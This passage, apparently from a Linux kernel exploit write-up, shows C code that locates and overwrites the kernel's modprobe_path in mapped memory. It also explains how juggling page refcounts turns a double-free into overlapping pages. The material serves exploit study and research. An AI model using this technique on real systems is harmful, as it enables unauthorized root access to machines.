 ```c
	return size;
}

static int strcmp_modprobe_path(char *new_str)
{
	char buf[KMOD_PATH_LEN] = { '\x00' };

	get_modprobe_path(buf, KMOD_PATH_LEN);
	
	return strncmp(new_str, buf, KMOD_PATH_LEN);
}

void *memmem_modprobe_path(void *haystack_virt, size_t haystack_len, char *modprobe_path_str, size_t modprobe_path_len)
{
	void *pmd_modprobe_addr;

	// search 0x200000 bytes (a full PTE at a time) for the modprobe_path signature
	pmd_modprobe_addr = memmem(haystack_virt, haystack_len, modprobe_path_str, modprobe_path_len);
	if (pmd_modprobe_addr == NULL)
		return NULL;

	// check if this is the actual modprobe by overwriting it, and checking /proc/sys/kernel/modprobe
	strcpy(pmd_modprobe_addr, "/sanitycheck");
	if (strcmp_modprobe_path("/sanitycheck") != 0)
	{
		printf("[-] ^false positive. skipping to next one\n");
		return NULL;
	}

	return pmd_modprobe_addr;
}
```

## Page refcount juggling

When freeing a page, the Linux kernel checks if the pages' refcount is 0. If it is not, it will refuse to free the page. To bypass this behaviour we simply juggle the refcounts, by utilizing the following order of operations for the double-free:

1. alloc obj1  | refcount 0 -> 1
2. free obj1  | refcount 1 -> 0
3. alloc obj2  | refcount 0 -> 1
4. free obj1  | refcount 1 -> 0
5. alloc obj3  | refcount 0 -> 1

obj2 and obj3 will now be overlapping (having the same page), because the refcounts were always 0 when freeing.

```c
void __free_pages(struct page *page, unsigned int order)
{
	/* get PageHead before we drop reference */
	int head = PageHead(page);

	if (put_page_testzero(page))
		free_the_page(page, order);
	else if (!head)
		while (order-- > 0)
			free_the_page(page + (1 << order), order);
}
```
